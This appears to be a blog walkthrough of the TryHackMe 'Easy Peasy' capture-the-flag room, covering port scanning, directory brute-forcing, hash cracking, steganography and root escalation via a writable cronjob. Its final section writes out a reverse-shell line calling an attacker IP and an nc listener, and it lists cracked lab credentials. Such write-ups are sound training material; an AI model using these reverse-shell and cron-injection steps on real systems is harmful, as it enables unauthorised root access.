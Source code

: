 ```yaml
---

title: Walkthrough - Easy Peasy
published: True
---
```


Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

[https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

* * *

## Notes

- Perform an nmap scan ``sudo nmap -Pn -sS -p- -T4 10.10.140.191 -vvv`` while waiting for results check webserver and start gobuster
- ``gobuster dir -u http://10.10.140.191 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

Find a hidden directory with nothing else there but we can further enumerate and gobust that one.

```shell
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster found ``/hidden/whatever`` inside the source code we find base64 ``ZmxhZ3tmMXJzN19mbDRnfQ==`` and our first flag
- time to gobust the other server on port 65524

![](/assets/easy-peasy-flag03.png)

- we find robots.txt on 65524

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- ``gobuster dir -u http://10.10.140.191:65524/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error -a a18672860d0510e5ab6699730763b250``
- Turns out the user agent is a md5 hash for our second flag

- after a few hours i guess haveto be more careful about looking through source code. Found base encoded data that i threw into cyberchef to decode. it's not your regular base32 or 64 or 58 encode. This leads us to another hidden directory.

![](/assets/easy-peasy04.png)

- lets check out ``/n0th1ng3ls3m4tt3r``
- download the jpg.
- also found ``940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`` in the source code. save to ``nothingelsematters.hash`` and feed it to john
- ``john nothingelsematters.hash --wordlist=easypeasy.txt --format=gost`` gives us ``mypasswordforthatjob``
- ``stegseek binarycodepixabay.jpg ./easypeasy.txt`` gives us ``secrettext.txt`` with credentials and a password in binary. Wait its actually ASCII and ``iconvertedmypasswordtobinary``
- credentials ``boring:iconvertedmypasswordtobinary``

* * * 

## What is the user flag?

- affine cipher - A=1,B=13

* * * 

## What is the root flag?

- ``cat /etc/crontab`` we find ``* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh``
- ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> .mysecretcronjob.sh``
- on attacker machine ``nc -nvlp 6670`` then ``cat /root/.root.txt``

* * * 

